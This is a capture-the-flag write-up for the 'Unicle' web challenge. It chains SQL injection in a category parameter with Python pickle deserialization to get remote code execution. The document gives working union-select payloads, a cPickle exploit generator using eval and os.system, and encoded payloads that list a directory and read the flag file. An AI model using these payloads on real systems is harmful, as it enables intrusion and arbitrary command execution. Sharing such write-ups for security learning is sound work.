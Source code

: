 # Unicle (Web, 200pts)

## Problem

OSaaS is the new trend for 2016! Store your object directly in the cloud. Get rid of the hassle of managing your own storage for object with Osaas. Unickle currently offers a beta version that demonstrates how OSaaS will make the internet a better place... One object at a time!!

http://54.84.124.93/

![Unicle application](unicle01.png)

## Solution

After opening url, there's a simple HTML table with all stored objects. There's only one parameter I could manipulate - Category id (cat).

### Phase one - SQL Injection

Quick research revealed that 'cat' parameter is vulnerable to SQL Injection. Valid payload should contain standard characters used in attacks based on SQLi (like + as space, /**/ as comment and so on).

First payload I've used and was fine, looks like this one (I used four columns in _union_ statement, because displayed HTML table had four columns and I've assumed four is good number to start from :) ):

```bash
http://54.84.124.93/?cat=2%2b1+and+1=1+union+select+1,2,3,4/**/
```

After some attempts to read eg. MySQL version via _version()_ I've realized that this is not MySQL database and one of the payload returned such result in the browser:

```bash
http://54.84.124.93/?cat=2+union+select+1,2,%22aaa%22,4/**/
```

![SQLi](unicle02.png)

That was something new for me, so I've tried some other payloads:

```bash
http://54.84.124.93/?cat=2+union+select+1,2,%22Magic%20Box%22,4/**/
```

and the result in first row in column Value was: "could not find MARK", also this payload:

```bash
http://54.84.124.93/?cat=2+union+select+1,2,%22{aa,bb}%22,4/**/
```

returned in the same place error message "invalid load key, '{'."

Quick session with Google told me that such error messages points I'm playing with Pickle Python module, which is used to serialization and deserialization of Python objects (https://docs.python.org/3.4/library/pickle.html). Two, maybe three blog posts later (linked at the end of this writeup) I had, more or less, some idea how can I use this vector to get the flag.


### Phase two - Remote Code Execution via Pickle module

As I've assumed that third column contains serialized Python object, which is deserialized on the backend side, I've started to create and inject simple exploits to get some valuable response.


I've used for this simple Pickle exploit generator (from Nelson Elhage's blog - https://twitter.com/nelhage - linked below):


```python
#!/usr/bin/python
import os
import cPickle
import base64

# Exploit that we want the target to unpickle
class Exploit(object):
    def __reduce__(self):
        return (eval, ("os.system('ls -l')",))

shellcode = cPickle.dumps(Exploit())
print shellcode
```


Generated exploit looks like this:


```bash
$ ./cpicke_exploit.py 
c__builtin__
eval
p1
(S"os.system('ls -l')"
p2
tp3
Rp4
.

```

To get this exploit working in injection payload, I had to use _%0A_ as a separator between every line of above output (to be sure that Pickle deserializes payload in right way).

Here's an example how to get result of _ls -l_ command:

```bash
http://54.84.124.93/?cat=1+and+1=2+union+select+1,2,%22c__builtin__%0Aeval%0A%28S%27os.listdir%28%27var/www%27%29%27%0AtR.%22,4/**/
```

And a result in Burp Repeater:

![ls -l result](unicle04.png)


So there's a _flag_ file directly in _/var/www_ directory, so let's get it!


```bash

http://54.84.124.93/?cat=1+and+1=2+union+select+1,2,%22c__builtin__%0Aeval%0A%28S%27os.popen%28%27cat%20/var/www/flag%27%29.readlines%28%29%27%0AtR.%22,4/**/
```

And the flag is:


![flag](unicle_flag.png)

## Summary

I've spent a lot of time on this task, because I had no experience with web application based on used technologies - as you can see _vulnerable.py_ file (which I saved just by curiosity, how the code looks like) - there's a **Flask** Python framework and **SQLAlchemy** simple ORM for Flask. Also I've never exploit Pickle code injection vulnerability in the wild before - so I've learnt a lot while working on this task. 


## Links

Exploiting Misuse of Python's "Pickle"          
https://blog.nelhage.com/2011/03/exploiting-pickle/

Playing with Pickle Security    
https://lincolnloop.com/blog/playing-pickle-security/

Flask			
http://flask.pocoo.org/

SQLAlchemy		
